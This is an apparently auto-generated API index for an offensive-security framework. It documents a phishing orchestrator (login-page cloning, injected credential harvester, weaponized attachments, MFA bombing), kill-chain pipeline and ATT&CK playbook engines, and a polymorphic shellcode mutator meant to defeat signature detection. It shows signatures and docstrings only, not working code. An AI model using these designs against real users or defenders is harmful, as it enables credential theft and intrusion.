**File Doc:** *Smart Phishing Campaign Orchestrator.  Provides a ``PhishingOrchestrator`` that automates the full phishing lifecycle: target profiling, email template generation, landing page cloning, credential harvesting, and campaign analytics. Integrates with the C2 infrastructure for callback tracking.  Architecture: TargetProfiler -> TemplateGenerator -> CampaignLauncher -> CredentialHarvester -> Analyst  Supported modes: credential_harvest  — Clone login pages and collect credentials. payload_delivery    — Send weaponized attachments. callback_beacon     — Embed C2 callback URLs for initial access. mfa_bombing        — Push notification fatigue attacks.  Security: All harvested credentials are written to ``sessions/phishing_creds.json``. Campaign data is isolated per engagement. No target email addresses are stored in repository files.  Usage: from modules.phishing_orchestrator import PhishingOrchestrator phish = PhishingOrchestrator() campaign_id = phish.launch( target_domain="target.com", template="microsoft_365_login", mode="credential_harvest", )*

**Classes:**
- `CampaignTarget` (line 139) `class CampaignTarget` - *A single phishing target profile.*
- `PhishingTemplate` (line 154) `class PhishingTemplate` - *An email/page template for phishing.*
- `CampaignResult` (line 167) `class CampaignResult` - *Outcome of a phishing campaign.*
- `PhishingOrchestrator` (line 180) `class PhishingOrchestrator` - *Orchestrate end-to-end phishing campaigns.

Public methods:
    launch(target_domain, template, mode) -> str (campaign_id)
    profile_targets(domain) -> list[CampaignTarget]
    generate_template(name, target_domain, context) -> PhishingTemplate
    clone_landing_page(url) -> str (local path)
    get_results(campaign_id) -> CampaignResult*

**Functions:**
- `_derive_credential_key` (line 57) `def _derive_credential_key()` - *Derive an AES key from the machine-local secret for credential encryption.

Returns:
    32-byte key for AES-256-GCM encryption.

Raises:
    RuntimeError: If no encryption key is configured.*
- `_encrypt_credential` (line 84) `def _encrypt_credential(plaintext)` - *Encrypt a credential string using AES-256-GCM.

Args:
    plaintext: The plaintext credential.

Returns:
    Base64-encoded encrypted payload (nonce || ciphertext || tag).*
- `_decrypt_credential` (line 100) `def _decrypt_credential(encrypted_b64)` - *Decrypt a credential string encrypted by ``_encrypt_credential``.

Args:
    encrypted_b64: Base64-encoded encrypted payload.

Returns:
    Decrypted plaintext string.*
- `_hash_credential_for_log` (line 116) `def _hash_credential_for_log(plaintext)` - *Return a keyed HMAC-SHA-256 fingerprint truncated for audit logs.

Uses the derived credential key as the HMAC secret so the digest is
stable per engagement but cannot be brute-forced without the key.

Args:
    plaintext: The plaintext credential.

Returns:
    Truncated hex digest for logging without exposing the credential.

Raises:
    RuntimeError: If no encryption key is configured.*

**Methods:**
- `__init__` (line 316) `def __init__(self)`
- `get_instance` (line 321) `def get_instance(cls)`
- `launch` (line 332) `def launch(self, target_domain, template, mode, targets_file, sender_email, sender_password, smtp_host, smtp_port)` - *Launch a phishing campaign.

Args:
    target_domain: Target organization domain.
    template: Template name or custom template dict.
    mode: credential_harvest, payload_delivery, callback_beacon.
    targets_file: Path to targets CSV (email,first_name,last_name...).
    sender_email: Email to send from.
    sender_password: SMTP password or app password.
    smtp_host: SMTP server hostname.
    smtp_port: SMTP server port.

Returns:
    Campaign ID string.*
- `profile_targets` (line 441) `def profile_targets(self, domain)` - *Profile targets for a domain using OSINT techniques.

Args:
    domain: Target organization domain.

Returns:
    List of CampaignTarget profiles.*
- `generate_template` (line 486) `def generate_template(self, name, target_domain, context)` - *Generate or retrieve a phishing template.

Args:
    name: Template name or path to custom template JSON.
    target_domain: Target domain for variable substitution.
    context: Additional template variables.

Returns:
    PhishingTemplate instance.*
- `clone_landing_page` (line 533) `def clone_landing_page(self, url)` - *Clone a target login page for credential harvesting.

Args:
    url: URL of the page to clone.

Returns:
    Path to the cloned HTML file.*
- `get_results` (line 560) `def get_results(self, campaign_id)` - *Get campaign results.

Args:
    campaign_id: Campaign identifier.

Returns:
    CampaignResult with statistics.*
- `record_click` (line 584) `def record_click(self, campaign_id, email)` - *Record a link click.

Args:
    campaign_id: Campaign identifier.
    email: Email that clicked.*
- `record_credentials` (line 605) `def record_credentials(self, campaign_id, email, password)` - *Record harvested credentials.

Args:
    campaign_id: Campaign identifier.
    email: Harvested email/username.
    password: Harvested password.*
- `_load_targets_from_file` (line 644) `def _load_targets_from_file(self, filepath)` - *Load targets from a CSV file.

Args:
    filepath: Path to targets CSV.

Returns:
    List of CampaignTarget objects.*
- `_generate_landing_page` (line 683) `def _generate_landing_page(self, template, target_domain, campaign_id)` - *Generate a credential harvesting landing page.

Args:
    template: PhishingTemplate.
    target_domain: Target domain.
    campaign_id: Campaign identifier.

Returns:
    HTML string.*
- `_setup_harvesting_endpoint` (line 723) `def _setup_harvesting_endpoint(self, campaign_id)` - *Configure credential harvesting endpoint.

Args:
    campaign_id: Campaign identifier.

Returns:
    Harvesting endpoint URL.*
- `_send_email` (line 735) `def _send_email(self, to_email, subject, html_body, smtp_config)` - *Send a phishing email via SMTP.

Args:
    to_email: Recipient email.
    subject: Email subject.
    html_body: HTML body content.
    smtp_config: SMTP configuration dict.

Returns:
    True if sent successfully.*
- `_inject_harvester` (line 769) `def _inject_harvester(self, html, page_id)` - *Inject credential harvesting JavaScript into cloned page.

Args:
    html: Cloned page HTML.
    page_id: Harvesting page identifier.

Returns:
    Modified HTML with harvester injected.*
- `_load_config` (line 808) `def _load_config(self)` - *Load payload config.

Returns:
    Configuration dict.*

#### `pipeline_engine.py`
**Path:** `modules/pipeline_engine.py`
**File Doc:** *modules/pipeline_engine.py — Declarative YAML pipelines for LazyOwn ====================================================================  Pillar 3: composition without code. Operators describe a kill-chain (or any other ordered sequence of LazyOwn commands) as a YAML document under ``pipelines/`` and run it with ``pipeline run <name>``. Pipelines may call other pipelines so larger playbooks compose from smaller building blocks.  The engine is intentionally minimal: it never calls ``eval`` or executes template code. Variable interpolation is restricted to a safe dotted-path resolver over a typed StepContext, and conditional execution is a strict truthy check on the resolved value. Each step runs through the existing LazyOwn command runner (the same one the autonomous daemon uses) so the 333+ commands remain the canonical implementation.  Layered architecture (SOLID):  - PipelineLoader     : parses YAML + validates schema. No execution. - TemplateResolver   : safe ``{{ scope.path.to.value }}`` substitution. - ConditionEvaluator : truthy check on a resolved template. - StepValidator      : ``validate:`` predicate (substring or ``re:`` regex). - StepDerivers       : per-command output parsers (has_exploit, findings, services, ttl, ports, ...). Pluggable registry so new commands extend the engine without changes. - IStepRunner        : execution contract for one step. - LazyOwnStepRunner  : default runner wrapping the daemon command runner. - RunArtifactStore   : persists every run under sessions/pipelines/. - INarrator          : optional narrator (default: engagement_hooks). - PipelineEngine     : orchestrates the plan. Detects nested-pipeline*

**Classes:**
- `PipelineError` (line 89) `class PipelineError(Exception)` - *Base error class for pipeline engine failures.*
- `PipelineSchemaError` (line 93) `class PipelineSchemaError(PipelineError)` - *YAML structure does not match the documented schema.*
- `PipelineNotFoundError` (line 97) `class PipelineNotFoundError(PipelineError)` - *Requested pipeline name does not resolve to a YAML file.*
- `PipelineCycleError` (line 101) `class PipelineCycleError(PipelineError)` - *Nested pipeline call would form an execution cycle.*
- `PipelineStep` (line 111) `class PipelineStep` - *One declared step inside a pipeline spec.

Attributes:
    index: Position in the plan (0-based).
    name: Step identifier used for the steps.<name> scope. Defaults
          to the command/pipeline name when not specified.
    command: LazyOwn shell command to execute. Mutually exclusive
             with pipeline.
    pipeline: Nested pipeline to invoke. Mutually exclusive with
              command.
    args: Optional argument string appended after the command.
    input_from: Template resolved to the args (overrides args when
                truthy after resolution).
    validate: Optional ``validate:`` predicate.
    condition: Optional ``condition:`` template. Falsy ->
               step is skipped.
    on_success: Optional follow-up command executed only when this
                step succeeded. The hook is itself a LazyOwn command
                name with no args.
    on_failure: One of stop|continue|skip. Defaults to stop.
    timeout_s: Per-step timeout.
    with_inputs: Free-form dict of step-level template values
                 accessible via ``inputs.X`` inside the same step.*
- `PipelineSpec` (line 152) `class PipelineSpec` - *A loaded, schema-validated pipeline document.*
- `StepResult` (line 163) `class StepResult` - *Outcome of executing a single PipelineStep.*
- `PipelineRun` (line 199) `class PipelineRun` - *Aggregate result returned by PipelineEngine.run.*
- `TemplateResolver` (line 260) `class TemplateResolver` - *Resolves ``{{ scope.path.to.value }}`` against a context dict.

Supported lookups:
  ``previous.<field>`` — most recent non-skipped step result.
  ``steps.<name>.<field>`` — explicit named step lookup.
  ``payload.<key>`` — value from payload.json (read at call time).
  ``inputs.<key>`` — step-level ``with_inputs`` values.
  ``findings.<key>`` — aggregated derived values across the run.

Unknown paths resolve to empty string; the engine never raises on a
bad template. Lists are stringified with ``" ".join`` so they slot
cleanly into command-line argument strings.*
- `ConditionEvaluator` (line 326) `class ConditionEvaluator` - *Truthy check on a resolved template expression.*
- `StepValidator` (line 341) `class StepValidator` - *Implements the ``validate:`` predicate for one step.

Forms:
  ``ttl=64``       → output must contain the substring "ttl=64".
  ``re:^ttl=\d+`` → output must match the trailing Python regex.
  ``empty``        → output trimmed must be empty.
  ``non_empty``    → output trimmed must be non-empty.*
- `StepDerivers` (line 375) `class StepDerivers` - *Per-command output parsers producing structured derived fields.

Each deriver returns a dict of additional keys merged into
``StepResult.derived``. The set of derivers is intentionally small
and uses defensive parsing — a deriver never raises and always
returns a dict.

Extension: register a new deriver via ``StepDerivers.register``.*
- `IStepRunner` (line 509) `class IStepRunner(ABC)` - *Execution contract for one resolved step.*
- `LazyOwnStepRunner` (line 523) `class LazyOwnStepRunner(IStepRunner)` - *Default runner reusing the autonomous-daemon command runner factory.

Each invocation prefixes the command with an ``assign rhost <target>``
line so steps that read payload.json[rhost] always see the pipeline's
target value, mirroring the autonomous daemon and EngageOrchestrator
contract.

When *onecmd* is provided (a ``LazyOwnShell.onecmd`` bound method),
commands execute directly inside the calling shell instead of spawning
a new PTY subprocess.  This is significantly faster in headless/CI
contexts and avoids the startup overhead of the daemon runner.*
- `PipelineLoader` (line 626) `class PipelineLoader` - *Loads pipeline YAML files into :class:`PipelineSpec` objects.

SOLID:
  - SRP: parses and validates; never executes.
  - LSP: any custom YAML-source backend can subclass and override
    ``_read``.
  - Security: yaml.safe_load only; pipeline name validated.*
- `RunArtifactStore` (line 769) `class RunArtifactStore` - *Persists pipeline runs under sessions/pipelines/<pipeline>__<runid>/.

Writes:
  - plan.yaml      : the frozen spec used by the run
  - step_<n>.json  : one record per executed step
  - summary.json   : aggregate PipelineRun*
- `INarratorAdapter` (line 848) `class INarratorAdapter(ABC)` - *Optional narration interface used by the engine.*
- `_SilentNarrator` (line 863) `class _SilentNarrator(INarratorAdapter)`
- `EngagementNarratorAdapter` (line 868) `class EngagementNarratorAdapter(INarratorAdapter)` - *Bridges to modules.engagement_hooks.EngagementNarrator when present.*
- `PipelineEngine` (line 908) `class PipelineEngine` - *Executes a PipelineSpec against the LazyOwn runtime.

Construction:

    engine = PipelineEngine()              # production defaults
    engine = PipelineEngine(runner=mock,   # test injection
                            narrator=...,
                            artifact_store=...,
                            loader=...)

Execution:

    run = engine.run("linux-initial-access", target="10.10.11.5")

Nested pipelines reuse the same engine instance, threading the
nesting stack through ``run`` to detect cycles.*

**Functions:**
- `_now_iso` (line 234) `def _now_iso()`
- `_new_run_id` (line 238) `def _new_run_id()`
- `_is_valid_pipeline_name` (line 242) `def _is_valid_pipeline_name(name)`
- `_load_payload` (line 248) `def _load_payload()`
- `_derive_ping` (line 412) `def _derive_ping(output)` - *Extract ttl, alive flag from ping output.*
- `_derive_lazynmap` (line 427) `def _derive_lazynmap(output)` - *Extract open ports and service names from nmap output.*
- `_derive_searchsploit` (line 453) `def _derive_searchsploit(output)` - *Detect whether searchsploit returned an exploit candidate.

Looks for explicit exploit identifiers (CVE-YYYY-N or an
``exploit/<category>`` path) rather than any occurrence of the
word "exploit", so phrasing like "No exploits found" correctly
resolves to ``has_exploit=False``.*
- `_derive_auto_populate` (line 472) `def _derive_auto_populate(output)` - *Auto-populate signals: domain discovered, services injected.*
- `_derive_facts_show` (line 481) `def _derive_facts_show(output)` - *facts_show emits 'found' lines per fact.*
- `_heuristic_success` (line 587) `def _heuristic_success(command, output)`
- `get_default_engine` (line 1300) `def get_default_engine(onecmd)` - *Process-wide default engine for production callers.

When *onecmd* is given, the engine's step runner will execute commands
directly through the caller's shell instead of spawning a new PTY.*
- `mcp_pipeline_run` (line 1314) `def mcp_pipeline_run(name, target, background, onecmd)` - *Public MCP / CLI entry: run a pipeline.

When *onecmd* is provided (a ``LazyOwnShell.onecmd`` bound method),
commands execute directly inside the caller's shell instead of spawning
a new PTY subprocess.  This is the recommended path when running from
inside an interactive shell or headless runner.

Returns a JSON string with either the full PipelineRun dict (when
``background=False``) or an immediate ``{status: started, run_id}``
response (when ``background=True``).*
- `mcp_pipeline_list` (line 1368) `def mcp_pipeline_list()` - *Return the list of available pipelines under pipelines/.*
- `mcp_pipeline_validate` (line 1385) `def mcp_pipeline_validate(name)` - *Validate a pipeline's YAML schema without executing it.*
- `mcp_pipeline_status` (line 1414) `def mcp_pipeline_status(last_n)` - *Return the N most recent pipeline runs and their summaries.*
- `cmd_pipeline` (line 1436) `def cmd_pipeline(action, name, target, background)` - *CLI helper bound to the ``pipeline`` daemon subcommand.*
- `_worker` (line 1344) `def _worker()`
- `_replace` (line 282) `def _replace(match)`

**Methods:**
- `to_context` (line 180) `def to_context(self)` - *Render the step result as a dict for template lookups.*
- `to_dict` (line 213) `def to_dict(self)` - *Return a JSON-friendly representation of the full run.*
- `__init__` (line 275) `def __init__(self, context)`
- `render` (line 278) `def render(self, template)`
- `resolve` (line 289) `def resolve(self, dotted_path)` - *Return the value at dotted_path or None when not found.*
- `_stringify` (line 314) `def _stringify(value)`
- `is_truthy` (line 330) `def is_truthy(rendered)`
- `validate` (line 352) `def validate(predicate, output)`
- `register` (line 389) `def register(cls, command, deriver)` - *Bind a deriver to a top-level command name (case-insensitive).*
- `derive` (line 396) `def derive(cls, command, output)` - *Run the registered deriver for command on output, defensive.*
- `run` (line 513) `def run(self, command, args, target, timeout_s)` - *Execute one command. Return (output, success, error_text).*
- `__init__` (line 537) `def __init__(self, runner, onecmd)`
- `run` (line 548) `def run(self, command, args, target, timeout_s)`
- `_run_via_onecmd` (line 566) `def _run_via_onecmd(self, command, args, target, timeout_s)`
- `__init__` (line 638) `def __init__(self, pipelines_dir)`
- `pipelines_dir` (line 642) `def pipelines_dir(self)`
- `list` (line 645) `def list(self)` - *Return every pipeline name discoverable in pipelines_dir.*
- `resolve_path` (line 658) `def resolve_path(self, name)` - *Return the absolute path to the YAML file for the given name.*
- `_read` (line 673) `def _read(self, path)`
- `load` (line 683) `def load(self, name)` - *Parse the YAML file for name and return a validated spec.*
- `_validate` (line 689) `def _validate(self, raw, name, source)`
- `__init__` (line 778) `def __init__(self, runs_dir)`
- `runs_dir` (line 782) `def runs_dir(self)`
- `open_run` (line 785) `def open_run(self, pipeline_name, run_id)` - *Create and return the directory for this run.*
- `write_plan` (line 797) `def write_plan(self, run_dir, spec)`
- `write_step` (line 814) `def write_step(self, run_dir, result)`
- `write_summary` (line 828) `def write_summary(self, run_dir, run)`
- `narrate` (line 852) `def narrate(self, kind, target, message, payload, severity)` - *Emit one narration event.*
- `narrate` (line 864) `def narrate(self)`
- `__init__` (line 871) `def __init__(self, narrator)`
- `narrate` (line 881) `def narrate(self, kind, target, message, payload, severity)`
- `__init__` (line 927) `def __init__(self, runner, loader, artifact_store, narrator, max_nesting)`
- `loader` (line 942) `def loader(self)`
- `validate` (line 945) `def validate(self, name)` - *Load and validate without executing. Raises on schema errors.*
- `run` (line 949) `def run(self, name, target, nesting_stack)` - *Execute the pipeline. Returns a fully-populated PipelineRun.*
- `_run_command` (line 1077) `def _run_command(self, step, resolver, target)`
- `_run_nested` (line 1126) `def _run_nested(self, step, resolver, target, stack, run)`
- `_run_hook` (line 1178) `def _run_hook(self, hook_command, target, timeout_s)`
- `_make_skipped` (line 1206) `def _make_skipped(step, reason)`
- `_build_context` (line 1221) `def _build_context(self, spec, target, step_results, derived_findings, current_step)`
- `_merge_findings` (line 1246) `def _merge_findings(derived_findings, result)`
- `_narrate_step` (line 1256) `def _narrate_step(self, result, target)`

#### `planner.py`
**Path:** `modules/planner.py`
**File Doc:** *Fact-based planner — decides the next ability to run.  The planner queries :class:`modules.world_model.WorldModel` for the current facts, :class:`modules.obs_parser.ObsParser` for fresh findings, and :class:`modules.playbook_engine.PlaybookEngine` for the candidate abilities pulled from STIX2 + Atomic Red Team. It then applies a deterministic ranking rule (no LLM dependency) to pick the best next step.  Why this exists separately from ``PlaybookEngine``: - ``PlaybookEngine.derive()`` produces a *batch* playbook at planning time. The planner picks a *single* next step at runtime. - The planner respects observed facts (e.g. "smb signing disabled") and gates techniques that depend on them.  Ranking rule (transparent, no LLM): score = base + matched_fact_bonus - risk_penalty where: base            : 100 matched_fact    : +25 per required fact the world model satisfies confidence      : + author-rating (heuristic from technique description) risk_penalty    : -20 if technique is loud/destructive  If ``api_key`` is set, the planner can delegate re-ranking to the LLM as a tie-breaker only.*

**Classes:**
- `PlanCandidate` (line 41) `class PlanCandidate`
- `PlanResult` (line 54) `class PlanResult` - *Ranked planning outcome for one target.*
- `Planner` (line 260) `class Planner` - *Fact-based next-ability selector.

Args:
    world_model: Lazy-initialised callable returning a WorldModel.
    obs_parser:  Lazy-initialised callable returning an ObsParser.
    api_key:     Optional LLM key for tie-breaking only.*
- `TodoItem` (line 452) `class TodoItem` - *One serial step in a multi-step chain with named requirements.*
- `TodoList` (line 460) `class TodoList` - *Dependency-safe todo sequence shared across planner wake-ups.

The planner records a serial exploit chain once (for example
credential capture before lateral movement) and the engine only
emits the step whose requirements are already satisfied.*
- `Frontier` (line 505) `class Frontier` - *Per-target intent queue fed by planner wake-ups.

Each wake-up emits zero or more untried intents. Most wake-ups emit
zero, which tells the engine there is no new direction and it should
stop instead of re-running fallbacks. A facts fingerprint detects
whether the world changed since the last wake-up.*

**Functions:**
- `_gather_facts` (line 64) `def _gather_facts(world_model, obs_parser)` - *Collect a flat list of fact-type strings from world model + obs parser.*
- `_risk_for` (line 160) `def _risk_for(technique_id)`
- `_score_step` (line 225) `def _score_step(step, facts)`
- `get_planner` (line 446) `def get_planner(api_key)` - *Return a fact-based planner with an optional LLM tie-break key.*

**Methods:**
- `__init__` (line 269) `def __init__(self, world_model, obs_parser, api_key)`
- `_wm` (line 279) `def _wm(self)`
- `_parser` (line 294) `def _parser(self)`
- `plan` (line 313) `def plan(self, target, max_candidates)` - *Return a ranked list of next-step candidates for *target*.

Args:
    target: The IP/hostname being engaged.
    max_candidates: How many candidates to return.

Returns:
    :class:`PlanResult` with ranked candidates and the chosen one.*
- `_build_rationale` (line 374) `def _build_rationale(chosen, facts, target)`
- `_llm_tiebreak` (line 387) `def _llm_tiebreak(self, target, facts, candidates)`
- `to_dict` (line 413) `def to_dict(self, result)`
- `__init__` (line 468) `def __init__(self)` - *Initialize an empty todo sequence.*
- `todo_add` (line 472) `def todo_add(self, name, requires)` - *Append a step and return it.*
- `todo_done` (line 478) `def todo_done(self, name)` - *Mark a step done when its requirements hold.*
- `next_ready` (line 489) `def next_ready(self)` - *Return the first pending step whose requirements hold.*
- `blocks` (line 497) `def blocks(self, tactic)` - *Return True when a tactic must wait for an unfinished chain.*
- `__init__` (line 514) `def __init__(self, planner, todos)` - *Bind the frontier to a planner and an optional todo list.*
- `todos` (line 523) `def todos(self)` - *Expose the shared todo list.*
- `tried` (line 528) `def tried(self)` - *Return the tried technique identifiers.*
- `refill` (line 532) `def refill(self, target, max_intents)` - *Plan fresh intents, keeping only untried and unblocked ones.*
- `pop` (line 551) `def pop(self)` - *Claim the oldest queued intent and mark its technique tried.*
- `__len__` (line 560) `def __len__(self)` - *Return the queued intent count.*

#### `playbook_engine.py`
**Path:** `modules/playbook_engine.py`
**File Doc:** *modules/playbook_engine.py =========================== Bridges MITRE ATT&CK (STIX2), Atomic Red Team, WorldModel, and LLMClient into a closed autonomous execution cycle.  Workflow -------- 1.  derive(target, phase) -> Playbook - Resolve MITRE tactics for the current phase - Query STIX2 enterprise-attack store for techniques under those tactics - Filter by target platform (linux / windows / macos from WorldModel) - Match techniques to Atomic Red Team YAML test files - Ask LLM to select and rank the most relevant N tests (optional) - Return a Playbook ready for execution  2.  execute(playbook, executor) -> PlaybookResult - Run each PlaybookStep via the provided executor callable - Parse output with ObsParser -> update WorldModel - Record outcome per step - Return full PlaybookResult  3.  save(playbook, path) / load(path) -> Playbook - Persist / restore playbooks as YAML (compatible with existing format)  Design ------ - Single Responsibility : PlaybookEngine composes, not executes (executor is injected) - Open/Closed           : new tactic mappings via PHASE_TACTIC_MAP extension*

**Classes:**
- `PlaybookStep` (line 101) `class PlaybookStep`
- `Playbook` (line 133) `class Playbook`
- `StepResult` (line 165) `class StepResult`
- `PlaybookResult` (line 173) `class PlaybookResult`
- `_StixLoader` (line 185) `class _StixLoader` - *Loads the enterprise ATT&CK STIX2 bundle into a queryable in-memory store.*
- `_AtomicIndex` (line 254) `class _AtomicIndex` - *Indexes Atomic Red Team YAML files by technique ID.
Returns concrete test definitions keyed by technique (T1059.001, etc.).*
- `_TechniqueSelector` (line 311) `class _TechniqueSelector` - *Uses LLMClient to rank and select the most relevant techniques given
WorldModel context. Falls back to returning the first N if LLM unavailable.*
- `PlaybookEngine` (line 375) `class PlaybookEngine` - *Derives, executes, saves, and loads structured ATT&CK-grounded playbooks.

Parameters
----------
world_model  : WorldModel instance (created lazily if None)
obs_parser   : ObsParser instance (created lazily if None)
api_key      : Groq API key for LLM-based technique selection
top_n        : maximum number of steps per generated playbook*

**Functions:**
- `get_engine` (line 660) `def get_engine(api_key)` - *Return (or create) the module-level singleton PlaybookEngine.*
- `_local_executor` (line 713) `def _local_executor(command, host)`

**Methods:**
- `to_dict` (line 113) `def to_dict(self)`
- `from_dict` (line 128) `def from_dict(cls, d)`
- `to_dict` (line 141) `def to_dict(self)`
- `from_dict` (line 152) `def from_dict(cls, d)`
- `__init__` (line 188) `def __init__(self, json_path)`
- `available` (line 192) `def available(self)`
- `store` (line 195) `def store(self)`
- `techniques_for_tactics` (line 210) `def techniques_for_tactics(self, tactic_shortnames, platform)` - *Return ATT&CK techniques matching the given tactic shortnames.*
- `__init__` (line 260) `def __init__(self, atomics_path)`
- `available` (line 264) `def available(self)`
- `build` (line 267) `def build(self)`
- `tests_for_technique` (line 300) `def tests_for_technique(self, technique_id, platform)`
- `select` (line 317) `def select(self, candidates, world_context, target, phase, api_key, top_n)`
- `__init__` (line 387) `def __init__(self, world_model, obs_parser, api_key, top_n)`
- `_world_model` (line 404) `def _world_model(self)`
- `_obs_parser` (line 415) `def _obs_parser(self)`
- `derive` (line 427) `def derive(self, target, phase, platform, apt_name)` - *Generate a Playbook for *target* at the given *phase*.

If phase is None, derives it from the WorldModel.
If platform is None, infers from WorldModel os_hint.*
- `execute` (line 529) `def execute(self, playbook, executor, dry_run)` - *Execute a Playbook step by step.

Parameters
----------
playbook  : the Playbook to run
executor  : callable(command: str, host: str) -> output: str
dry_run   : if True, print commands without executing*
- `save` (line 590) `def save(self, playbook, path)` - *Persist playbook to YAML (compatible with existing playbooks/ format).*
- `load` (line 602) `def load(self, path)` - *Load a playbook from YAML. Supports both new extended format and legacy format.*
- `result_summary` (line 631) `def result_summary(self, result)` - *Return a human-readable / LLM-readable summary of a PlaybookResult.*

#### `playbook_executor.py`
**Path:** `modules/playbook_executor.py`
**File Doc:** *Playbook Executor — bridges MITRE ATT&CK playbooks to the pipeline engine.  Reads YAML playbooks from ``playbooks/``, maps atomic test procedures to LazyOwn shell commands, and either executes them through the pipeline engine or generates a runnable pipeline spec for manual review.  Architecture: PlaybookLoader   — parses and validates playbook YAML. TTPMapper         — resolves technique_id + atomic_test to LazyOwn commands. PlaybookEngine    — orchestrates execution via PipelineEngine or dry-run.*

**Classes:**
- `PlaybookTechnique` (line 36) `class PlaybookTechnique` - *One technique (sub)phase within a playbook.*
- `PlaybookSpec` (line 48) `class PlaybookSpec` - *A loaded, validated playbook document.*
- `PlaybookRunResult` (line 61) `class PlaybookRunResult` - *Summary of one playbook execution.*
- `ITTPMapper` (line 93) `class ITTPMapper(ABC)` - *Resolves a MITRE technique + atomic test to a LazyOwn command.*
- `DefaultTTPMapper` (line 101) `class DefaultTTPMapper(ITTPMapper)` - *Maps known technique IDs to LazyOwn commands via a dictionary.

The mapping is extensible; operators can register additional commands
at runtime via ``register``.*
- `PlaybookLoader` (line 203) `class PlaybookLoader` - *Parses playbook YAML files into PlaybookSpec objects.*
- `PlaybookEngine` (line 336) `class PlaybookEngine` - *Orchestrates playbook analysis, pipeline generation, and execution.*

**Functions:**
- `_build_pipeline_yaml` (line 285) `def _build_pipeline_yaml(playbook, mapper, platform)` - *Generate a pipelines/<name>.yaml string from a playbook spec.*
- `playbook_list` (line 416) `def playbook_list()` - *Return a JSON array of available playbooks.*
- `playbook_analyze` (line 422) `def playbook_analyze(name, platform)` - *Return a JSON summary of one playbook.*
- `playbook_generate` (line 429) `def playbook_generate(name, platform)` - *Generate a runnable pipeline from a playbook. Returns the path.*
- `playbook_run` (line 436) `def playbook_run(name, platform, target, onecmd)` - *Analyze, generate, and execute a playbook. Returns a JSON summary.*

**Methods:**
- `to_dict` (line 74) `def to_dict(self)`
- `resolve` (line 97) `def resolve(self, technique_id, atomic_test, platform)` - *Return a LazyOwn shell command string or None if unmapped.*
- `register` (line 180) `def register(cls, technique_id, platform, command)` - *Add a new technique-to-command mapping.*
- `resolve` (line 185) `def resolve(self, technique_id, atomic_test, platform)`
- `__init__` (line 208) `def __init__(self, playbooks_dir)`
- `list` (line 211) `def list(self)` - *Return every discoverable playbook name.*
- `load` (line 224) `def load(self, name)` - *Load and validate a playbook by name.*
- `_validate` (line 235) `def _validate(self, raw, source_path)`
- `__init__` (line 339) `def __init__(self, loader, mapper, pipelines_dir)`
- `loader` (line 350) `def loader(self)`
- `analyze` (line 353) `def analyze(self, name, platform)` - *Analyze a playbook: count techniques, automated vs manual, coverage.*
- `generate_pipeline` (line 378) `def generate_pipeline(self, name, platform)` - *Generate a pipeline YAML file from a playbook.

Returns the path to the generated pipeline file.*
- `run` (line 390) `def run(self, name, platform, target, onecmd)` - *Generate and execute a pipeline from a playbook.

Requires the pipeline engine to be available. When *onecmd* is
provided, commands execute inside the caller's shell.*

#### `polymorphic_engine.py`
**Path:** `modules/polymorphic_engine.py`
**File Doc:** *Polymorphic code generation engine — shellcode mutation and obfuscation.  Transforms shellcode through multiple mutation passes: NOP-equivalent substitution, register reassignment, instruction reordering, junk code insertion, XOR/ROT encryption, and compression. Each generated variant is functionally equivalent but structurally unique — defeating static signature detection.  The engine tracks mutation entropy and produces audit logs for operators.*

**Classes:**
- `MutationConfig` (line 93) `class MutationConfig` - *Configuration for polymorphic mutation passes.

Attributes:
    nop_substitution: Replace NOPs with random equivalents.
    nop_insertion: Insert random NOP-equivalents between real instructions.
    register_reassignment: Remap registers to unused equivalents.
    instruction_reordering: Reorder independent instructions.
    junk_insertion: Insert semantically-neutral junk code blocks.
    junk_pct: Percentage of total output to fill with junk (0.0 to 0.5).
    xor_encrypt: Apply XOR encryption layer with random key.
    multi_xor: Use multiple XOR keys across chunks.
    compress: zlib-compress payload before encryption.
    base64_wrap: Wrap final output in base64 with decoder stub.
    passes: Number of mutation passes (each pass applies all enabled transforms).
    seed: Random seed for reproducibility (None = random).*
- `MutationResult` (line 126) `class MutationResult` - *Output of a single mutation pass.

Attributes:
    data: Mutated shellcode bytes.
    sha256: SHA-256 hash of the output.
    entropy: Shannon entropy estimate (0.0-8.0).
    size_ratio: Ratio of mutated size to original size.
    pass_number: Which mutation pass this represents.
    techniques_applied: List of techniques applied in this pass.*
- `PolymorphicEngine` (line 146) `class PolymorphicEngine` - *Generate functionally-equivalent but structurally-unique shellcode variants.

Each invocation of mutate() produces a different output for the same input,
defeating signature-based detection. Tracks all variants with audit hashes.

Attributes:
    config: Mutation pass configuration.
    audit_log: Ordered list of MutationResult for all generated variants.*

**Methods:**
- `__init__` (line 159) `def __init__(self, config)`
- `mutate` (line 163) `def mutate(self, shellcode, arch)` - *Apply all configured mutation passes to shellcode.

Args:
    shellcode: Raw shellcode bytes to mutate.
    arch: CPU architecture ('x64' or 'x86').

Returns:
    Mutated shellcode bytes.*
- `_single_pass` (line 184) `def _single_pass(self, data, arch, pass_num, original_size)`
- `_nop_substitution` (line 231) `def _nop_substitution(self, data, arch)`
- `_nop_insertion` (line 253) `def _nop_insertion(self, data, arch)`
- `_register_reassignment` (line 262) `def _register_reassignment(self, data, arch)`
- `_junk_insertion` (line 282) `def _junk_insertion(self, data, arch)`
- `_xor_encrypt` (line 303) `def _xor_encrypt(self, data, arch)`
- `_multi_xor_encrypt` (line 309) `def _multi_xor_encrypt(self, data)`
- `_compress_data` (line 324) `def _compress_data(self, data)`
- `_base64_wrap` (line 330) `def _base64_wrap(self, data, arch)`
- `_estimate_entropy` (line 344) `def _estimate_entropy(data)`
- `decode_xor` (line 361) `def decode_xor(data)` - *Decode single-byte XOR encrypted shellcode.

Args:
    data: XOR-encrypted bytes with key as last byte.

Returns:
    Decrypted shellcode bytes.*
- `decode_multi_xor` (line 377) `def decode_multi_xor(data)` - *Decode multi-byte XOR encrypted shellcode.

Args:
    data: Multi-XOR encrypted bytes with header.

Returns:
    Decrypted shellcode bytes.*
- `generate_decoder_stub` (line 397) `def generate_decoder_stub(self, arch)` - *Generate a self-decrypting stub shellcode template.

The stub decodes XOR-encrypted payload that follows it, then jumps
to the decoded shellcode. This is the core of polymorphic wrapping.

Args:
    arch: Target architecture ('x64' or 'x86').

Returns:
    Decoder stub shellcode bytes.*
- `get_audit_summary` (line 422) `def get_audit_summary(self)` - *Return a summary of all mutations applied.

Returns:
    Dict with variant count, entropy range, size ratios, and SHA-256 list.*

#### `privesc_predictor.py`
**Path:** `modules/privesc_predictor.py`
